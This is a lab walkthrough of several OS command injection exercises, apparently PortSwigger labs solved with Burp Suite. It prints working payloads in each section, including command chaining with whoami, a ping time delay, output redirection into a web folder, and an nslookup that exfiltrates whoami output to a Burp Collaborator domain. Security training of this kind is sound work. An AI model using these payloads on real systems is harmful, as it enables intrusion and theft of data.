 # OS command injection, simple case
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe1257e-aa10-4808-9456-07dc312be969)

Navigate to the website, 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6801b2fd-9ba6-4dfd-9da5-9504da42bb14)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/65bc6550-551a-4063-bdcf-116f9d6b0220)

Capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c6e53c61-e24c-4e25-a8e5-641059dcc47d)

So the vulnerability lies in the storeId function.

Checking payload all things I saw something on chaining commands, we can execute the ```whoami``` command by chaining it. So, we'll have something like this
```
storeId=1|whoami
```
Trying this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7eef72bb-d17b-4a48-880e-5c44fc12368e)

So we got the name of the current user.

Checking the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5c8d3284-eab1-48c8-8515-1ea3bd6c0280)

We have successfully completed the task

------------------------

# Blind OS command injection with time delays
<hr> 

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c2703689-8242-4165-a963-3c3a10f784c7)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cc8c94cc-1e7d-4212-9528-be5e103cf7b0)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fe35f794-dfde-41c4-8382-c396458e1120)

Lets capture this request and send it over to burp intruder

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e432dc1d-c393-4f04-a888-cb3f9490f4f5)

We were told the vulnerability is in the feedback function. We'll be injecting the email section. we can use this payload to cause a 10 second delay
```
||ping -c 10 127.0.0.1||
```
Applying that payload and ensuring it is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/baa7354a-3ff3-4511-89fb-5dd0fa884613)

Checking the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7c60d089-0eff-426b-a40b-373969423ad6)

We have successfully completed the task for this lab.

-------------------------------------

# Blind OS command injection with output redirection
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b10aa245-fd9c-4860-875b-9b551fe50fb6)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/50dd66e9-7259-4b7e-88a1-8e392a22f1d7)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/29482e08-8050-48bd-933d-8d863f08c3cc)

Capturing this request on burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ccbd0a4a-dbd4-4672-8001-7d891bcf0bbc)

Now, we were given the writable folder to be ```/var/www/images``` and we are to execute the ```whoami``` command and then retrieve the output. So to write to that folder we can use the payload
```
||whoami > /var/www/images/abeg.txt||
```
Ensure this is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/52142d1b-dea3-4b0f-9398-4919c6d0dad5)

Lets try to view an image, we'll be capturing this request on burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e20f52c-9ab0-4e84-8811-2d9ad311d08a)

Now the file we wrote the ```whoami``` command to earlier was ```abeg.txt```, so we'll be changing the name of the image to ```abeg.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e4559180-7927-4715-bf87-c6424faf6935)

Cool, the command got executed successfully. 

Checking our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/257f6306-c586-4e38-99e6-bf8d76839e97)

We have successfully solved this lab.

-------------------------

# Blind OS command injection with out-of-band interaction
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae96badf-72cb-400b-b270-8c704e0373f5)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ac7e3195-6efd-460d-b369-40e0886ed896)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/90e46c2b-b787-4cb6-a677-12b5553a9096)

Capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64fd3693-d050-4455-bd98-7053b2bba741)

so, to solve this lab we have to issue a DNS lookup to burp collaborator

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4fab75bf-9313-402e-b06c-527560ceff3e)

Click on "copy to clipboard" to copy the payload to use. So we can use ```nslookup``` with the payload burp collaborator client generated for us
```
||nslookup 2ad7n17mkusj9u18hveevnj8zz5pte.oastify.com||
```
Ensure it is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/10a8d6f5-7a53-4978-bb60-7cc1a6b4e298)

Checking the burp collaborator client window

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b30d0fcf-e2f0-48af-ab0d-fde372a9626e)

We have successfully sent a DNS query

Checking the webpage again,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/714cb00f-8d68-4769-b89f-3c86d4376771)

We have successfully solved the task

------------------------------------

# Blind OS command injection with out-of-band data exfiltration
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/75918da9-62b0-436b-89f7-12adc8709650)

Navigate to the website,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7ed04485-449b-4307-91d3-d71e74400bd1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dff1fe06-5e81-43d6-a857-33dfffd16b3a)

Capture this request on burpsuite and send it over to burp repeater

We have execute the ```whoami``` command and exfiltrate the output via a DNS query to Burp Collaborator.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dadea7c1-49d2-4eb5-a83e-2016d7a902ce)

Click on "copy to clipboard" to copy the payload to use. So we can use ```nslookup``` with the payload burp collaborator client generated for us to run the ```whoami``` command.

We can use the payload
```
||nslookup `whoami`.8clpqlx6r4oe0u0r87hwrnkonft5hu.oastify.com||
```
Ensure this is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ef52828-66de-4f38-9bce-de0b2543420e)

We got the name of the current  user to be ```peter-WmKLbv```. 

Submitting this name

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a91d42c5-bcb6-4931-8bc2-e3e50d04c4b1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2be1cde7-c4b1-4625-a8a4-ee0bbb22cb88)

We have successfully completed this lab😎












